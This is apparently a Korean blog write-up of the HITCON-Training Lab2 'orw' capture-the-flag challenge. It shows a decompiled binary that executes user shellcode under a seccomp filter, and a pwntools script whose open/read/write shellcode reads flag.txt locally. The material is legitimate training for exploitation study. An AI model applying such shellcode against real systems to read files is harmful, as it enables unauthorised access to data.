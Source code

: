 ```yaml
---
title: "[HITCON-Training]Lab2"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


local Exploit이라 그냥 flag.txt 만들어주고 했다. seccomp가 걸려있어서 orw밖에 사용하지 못한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

근데 입력받은걸 쉘코드 실행해주니까 open -> read -> write 으로 파일 열면 된다.

```python
from pwn import *
 
e = ELF('./orw.bin')
p = process('./orw.bin')
payload = asm(shellcraft.pushstr("flag.txt"))
payload += asm(shellcraft.open('esp',0,0))
payload += asm(shellcraft.read('eax','esp',100))
payload += asm(shellcraft.write(1,'esp',100))
p.sendlineafter(':',payload)
p.interactive()
```

